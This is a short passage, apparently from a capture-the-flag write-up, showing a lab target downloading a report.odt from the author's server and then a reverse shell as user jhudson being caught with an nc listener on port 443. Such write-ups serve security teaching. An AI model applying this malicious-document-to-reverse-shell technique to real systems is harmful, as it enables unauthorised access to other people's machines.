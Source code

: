 ![](/img/image-20231024212457644.png)

There's a request for the document at my server:



    10.10.11.225 - - [26/Oct/2023 07:00:37] "GET /report.odt HTTP/1.1" 200 -



And then a reverse shell at listening `nc` as jhudson:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.225 53300
    bash: cannot set terminal process group (1178586): Inappropriate ioctl for device
    bash: no job control in this shell
    bash: /home/jhudson/.bashrc: Permission denied
    jhudson@gofer:/usr/bin$


